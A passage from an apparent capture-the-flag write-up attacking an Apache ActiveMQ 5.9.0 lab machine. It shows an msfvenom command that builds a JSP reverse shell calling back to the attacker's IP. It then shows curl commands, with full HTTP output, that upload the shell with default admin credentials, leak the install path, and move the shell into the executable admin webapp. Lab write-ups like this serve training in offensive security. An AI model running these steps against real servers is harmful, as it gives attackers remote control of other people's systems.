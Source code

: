 I decided to rebuild this using a jsp reverse shell generated via msfvenom:
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.11.25.15" LPORT=1234 -f raw > shell.jsp
```
With this I started the process using curl (I loove that command). 

First I uploaded the shell to the fileserver folder:
```
$ curl -u 'admin:admin' -v -X PUT --data "@shell.jsp" http://broker.thm:8161/fileserver/shell.jsp
*   Trying 10.10.2.229:8161...
* Connected to broker.thm (10.10.2.229) port 8161 (#0)
* Server auth using Basic with user 'admin'
> PUT /fileserver/shell.jsp HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 1439
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 1439 out of 1439 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact

```
Next I need to figure out what the internal path is for the admin folder. This is needed as jsp is not executed in the fileserver folder.

```
$ curl -u 'admin:admin' -v -X PUT http://broker.thm:8161/fileserver/test/%20/%20      
*   Trying 10.10.2.229:8161...
* Connected to broker.thm (10.10.2.229) port 8161 (#0)
* Server auth using Basic with user 'admin'
> PUT /fileserver/test/%20/%20 HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 /opt/apache-activemq-5.9.0/webapps/fileserver/test/ /  (No such file or directory)
< Content-Length: 0
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact

```
Now we know that the path is /opt/apache-activemq-5.9.0/ and that the admin folder would be placed here. Lets move the file:

```
$ curl -u 'admin:admin' -v -X MOVE --header "Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/shell.jsp"  http://broker.thm:8161/fileserver/shell.jsp

*   Trying 10.10.2.229:8161...
* Connected to broker.thm (10.10.2.229) port 8161 (#0)
* Server auth using Basic with user 'admin'
> MOVE /fileserver/shell.jsp HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.74.0
> Accept: */*
> Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/shell.jsp
```